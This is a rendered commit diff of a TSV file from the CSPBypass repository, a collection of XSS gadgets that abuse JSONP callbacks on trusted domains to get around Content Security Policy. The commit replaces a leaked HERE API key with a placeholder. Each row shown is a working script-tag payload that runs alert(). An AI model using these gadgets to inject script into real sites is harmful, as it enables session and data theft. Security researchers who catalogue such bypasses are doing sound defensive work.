

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -216,3 +212,3 @@ wikipedia.org	<script src="https://en.wikipedia.org/w/api.php?action=opensearch&
 wordpress.org	<script src="https://wordpress.org/wp-json/wp/v2/posts/?_jsonp=alert"></script>
-wse.api.here.com	<script src="https://wse.api.here.com/v8/findsequence2?apiKey=PJy8lvw9xxcCnYDFFsp8IvQB_l7ScobQmQ2xttBWfuQ&jsonCallback=alert(origin);void&mode=TransportModes"></script>
+wse.api.here.com	<script src="https://wse.api.here.com/v8/findsequence2?apiKey=<valid-api-key-here>&jsonCallback=alert(origin);void&mode=TransportModes"></script>
 www-api.ibm.com	<script src="https://www-api.ibm.com/search/typeahead/v1?lang=en&cc=us&query=l&callback=alert"></script>
```
Also changed, not shown: 4 removed rows and 1 edited cell elsewhere in this file.
